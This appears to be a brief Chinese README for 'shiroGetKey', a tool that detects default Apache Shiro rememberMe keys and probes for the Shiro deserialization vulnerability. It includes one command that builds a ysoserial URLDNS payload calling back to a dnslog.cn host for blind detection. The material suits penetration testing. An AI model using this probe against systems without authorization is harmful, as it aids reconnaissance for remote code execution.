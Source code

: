 # shiroGetKey
检测默认key，探测漏洞

# 用途

1. 利用空SimplePrincipalCollection检测正常回显rememberMe=deleteMe
2. 利用dnslog进行探测特殊情况(反代)无回显漏洞是否存在

# payload生成

dnslog探测用ysoserial生成  
如下：
``` cmd
java -jar ysoserial-master-d367e379d9-1.jar URLDNS http://wxovk8.dnslog.cn >1.txt &certutil -encode 1.txt 2.txt&type 2.txt
```

